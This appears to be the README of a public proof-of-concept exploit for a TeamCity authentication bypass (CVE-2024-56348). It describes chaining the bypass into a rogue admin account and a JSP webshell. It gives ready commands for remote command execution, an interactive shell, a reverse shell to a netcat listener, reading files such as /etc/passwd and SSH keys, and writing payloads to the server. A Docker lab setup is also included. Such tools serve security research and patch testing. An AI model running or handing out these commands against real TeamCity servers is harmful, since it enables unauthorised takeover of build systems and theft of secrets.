





<h1 align="center">JetBrains TeamCity Authentication Bypass + RCE (CVE-2024-56348) PoC</h1>

<p align="center">
    
    <a href="https://go.dev/">
      
    </a>
</p>

## 📜 Description

CVE-2024-56348 is a critical authentication bypass vulnerability in **JetBrains TeamCity on-premises** affecting all versions prior to **2024.12**. The REST API improperly handles requests to paths containing `;.jsp`, allowing an unauthenticated attacker to invoke any REST endpoint as if fully authenticated.

This exploit chains the bypass with TeamCity's own REST API to create a `SYSTEM_ADMIN` account, mint an API token, and achieve **full remote code execution** — either through the built-in debug endpoint or a dynamically uploaded JSP plugin webshell. No credentials required.

**Affected versions:** JetBrains TeamCity on-premises < 2024.12

## ✨ Features

- **Interactive shell** — pseudo-shell with stdout/stderr separation and exit code in the prompt
- **Command execution** — single command via `-command` with full stdout, stderr, and exit code output
- **Reverse shell** — deploys a JSP plugin webshell and triggers a callback to your listener
- **File read** — read any file the TeamCity process can access
- **File write** — drop arbitrary content to any writable path on the server

## 🛠️ Installation

```bash
git clone https://github.com/joshuavanderpoll/cve-2024-56348.git
cd CVE-2024-56348
go build -o exp cve-2024-56348.go
```

### Install directly with Go
```bash
go install github.com/joshuavanderpoll/cve-2024-56348@latest
```

### Run without installing
```bash
go run github.com/joshuavanderpoll/cve-2024-56348@latest -t http://127.0.0.1:8111
```

## ⚙️ Usage

```
  -t          Target URL  (e.g. http://127.0.0.1:8111)
  -command    Execute a single command and print output
  -shell      Spawn a reverse shell (requires -lhost and -lport)
  -lhost      Listener host for the reverse shell
  -lport      Listener port for the reverse shell
  -read-file  Read a remote file and print its contents
  -write-file Remote path to write to (requires -file-content)
  -file-content Content to write when using -write-file
```

No action flag drops into an **interactive shell** automatically.

---

### Vulnerability check + interactive shell

Connects to the target, confirms the bypass, creates a temporary admin account, and drops into an interactive shell. The prompt shows the exit code of the last command in green (success) or red (non-zero).

```bash
./cve-2024-56348 -t http://127.0.0.1:8111
```


---

### Single command execution

Runs one command and prints stdout, stderr, and exit code separately.

```bash
./cve-2024-56348 -t http://127.0.0.1:8111 -command "id"
```


---

### Reverse shell

Deploys the JSP plugin webshell and triggers a reverse shell back to your listener. Start `nc -lvp 4444` first.

```bash
./cve-2024-56348 -t http://127.0.0.1:8111 -shell -lhost 10.0.0.1 -lport 4444
```


---

### File read

Reads any file the TeamCity process has access to — useful for config files, SSH keys, etc.

```bash
./cve-2024-56348 -t http://127.0.0.1:8111 -read-file /etc/passwd
```


---

### File write

Writes arbitrary content to a remote path. Useful for dropping additional payloads or modifying config.

```bash
./cve-2024-56348 -t http://127.0.0.1:8111 -write-file /tmp/readme.txt -file-content "LEAVE ME HERE"
```


---

## 🐋 Docker PoC

A self-contained Docker Compose environment with a vulnerable TeamCity instance for local testing.
Check [DOCKER.md](/docker/DOCKER.md) for more details

```bash
cd docker/
docker compose up -d
./cve-2024-56348 -t http://127.0.0.1:8111
```

> If the script returns "[-] Plugin upload failed." try to login with hackindex user and try again. (credentials can be found in [DOCKER.md](/docker/DOCKER.md))


## 🕵🏼 References

- [JetBrains Security Advisory — CVE-2024-56348](https://www.jetbrains.com/privacy-security/issues-fixed/)
- [NVD — CVE-2024-56348](https://nvd.nist.gov/vuln/detail/CVE-2024-56348)
- [HackIndex](https://hackindex.io/vulnerabilities/CVE-2024-56348)

## 📢 Disclaimer

This tool is provided for educational and research purposes only. The creator assumes no responsibility for any misuse or damage caused by this tool.
